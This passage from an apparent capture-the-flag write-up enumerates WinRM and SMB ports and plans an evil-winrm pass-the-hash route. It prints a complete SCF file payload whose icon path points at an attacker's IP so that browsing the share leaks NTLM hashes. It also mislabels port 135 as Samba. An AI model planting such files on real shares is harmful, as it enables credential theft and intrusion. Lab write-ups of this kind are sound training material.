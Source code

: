 ### Port `5985` (WinRM)

According to [HackTricks](https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm), "Windows Remote Management (WinRM) is a Microsoft protocol that allows remote management of Windows machines over HTTP(S) using SOAP... If WinRM is enabled on the machine, it's trivial to remotely administer the machine from PowerShell. In fact, you can just drop in to a remote PowerShell session on the machine (as if you were using SSH!)"

Under the [WinRM connection in linux](https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm#winrm-connection-in-linux) heading, HackTricks mentions using [Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm). We need to have access credentials to use this protocol.

### Port `135` (Samba)

This leaves one port, `135`, which is for samba. According to [Wikipedia](https://en.wikipedia.org/wiki/Server_Message_Block), "Server Message Block (SMB) is a communication protocol that Microsoft created for providing shared access to files and printers across nodes on a network." Since the other two ports look like dead ends for now, we must be able to find something here. Maybe the files are being uploaded to the samba share, which would mean we have write access to that share without authentication details.

Under this assumption, searching online for "smb unauthenticated write access exploit" reveals [this post about SCF file attacks on SMB](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/). Apparently, if SMB "is configured with write permissions for unauthenticated users then it is possible to obtain passwords hashes of domain users or Meterpreter shells."

On the [HackTricks post about WinRM](https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm#pass-the-hash-with-evil-winrm) there is a subheading called "Pass the hash with evil-winrm." So, if we can get a hash with an SCF attack we can pass the hash and get a user shell with `evil-winrm`.

Searching for "SMB SCF file exploit" shows these additional results: [sql--injection.blogspot.com](https://sql--injection.blogspot.com/p/smb.html) and [1337red.wordpress.com](https://1337red.wordpress.com/using-a-scf-file-to-gather-hashes/).

Essentially, an SCF file is used to control Windows Explorer. So, when a user browses to a folder containing an SCF file, Windows will use the contents of that file. We can create an SCF file like this:

```
[Shell]
Command=2
IconFile=\\X.X.X.X\share\test.ico
[Taskbar]
Command=ToggleDesktop
```

We can set `X.X.X.X` to our attacker's ip address. Since the `IconFile` field is set to a UNC path, Windows will request the icon from the attacker and try authenticating with the user's credentials, then the attack will issue a challenge request, finally Windows will return a challenge response with the NTLM hash.

## Foothold
